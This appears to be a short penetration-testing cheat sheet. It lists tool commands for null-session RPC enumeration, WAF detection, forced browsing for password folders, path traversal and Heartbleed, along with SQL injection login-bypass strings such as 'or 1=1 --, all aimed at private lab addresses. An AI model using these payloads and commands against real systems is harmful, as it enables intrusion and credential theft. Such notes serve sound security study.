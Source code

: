 # rpc (nulll client login)
```bash
rpcclient -U "username" 192.168.1.10
enum
enumdomusers
```

# wafwoof
* basic usage: ``wafw00f https://192.168.1.32/``

# owasp sap
* find hidden files (burp premium feature)
    * enable web browser proxy
        * set local proxy in sap>options to localhost
            * reload page
                * sites > server dir > rightclick > spider > start scan (http://192.168.1.43/server/)
                    * rightclick>forced browse directory and children
                        * choose site and list, redo previous step
                        * look for interesting folders (notes, passwords, users, accounts), php scripts (database)


# sql-injection

* input random charactes in login forms ```('<!#=.->/")``` to try and provoke sql error
* ``'or 1=1 --``
* ``username = admin ' --   password = '``

# dotdotpwn
```bash
dotdotpwn -m http -h 192.168.1.53
```

# heartbleed use with openssl v 1.0.1 and 1.0.2-beta

![heartbleed.py](https://github.com/ctfs/write-ups-2014/blob/master/plaid-ctf-2014/heartbleed/heartbleed.py)
```bash
python ./heartbleed.py 192.168.1.10 -p 8443
```
* use with nmap: ``nmap -p 8443 --script ssl-heartbleed 192.168.1.105``

#  linux exploit suggester
```bash
wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh -O les.sh
```
